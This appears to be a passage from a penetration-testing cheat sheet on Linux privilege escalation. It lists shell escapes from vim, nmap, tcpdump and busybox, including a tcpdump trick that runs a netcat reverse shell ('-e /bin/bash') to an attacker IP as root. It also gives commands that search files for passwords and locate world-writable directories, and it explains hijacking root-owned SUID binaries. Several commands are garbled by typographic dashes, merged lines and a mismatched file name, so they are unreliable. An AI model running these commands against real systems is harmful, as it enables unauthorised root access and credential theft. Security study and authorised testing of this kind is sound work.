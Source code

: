```text
From within vim 
':!bash':
From within nmap: 
!sh
From within tcpdump
echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root
From busybox 
/bin/busybox telnetd -|/bin/sh -p9999
```

## Find interesting files and directories fast

`find / -name "*.txt" 2> >(grep -v 'Permission denied' >&2)`

`grep -R -i "password" 2> >(grep -v 'Permission denied' >&2)`

## SUID files / binaries

The file will run as the owner no matter who executes it. So if root owns it, we can run it and hijack it to become root

{% hint style="info" %}
If you have found a, download it to your box and open it in Ghidra. Check the main function to view decompiled commands interesting binary 
{% endhint %}

### World-writable folders

```text
find / -writable -type d 2>/dev/null
```

```text
find / -perm -222 -type d 2>/dev/null
```

```text
find / -perm -o w -type d 2>/dev/null
```

### World-executable folders

```text
find / -perm -o x -type d 2>/dev/null
```

### World-writeable & executable folders

```text
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```

#### gives a bit more info
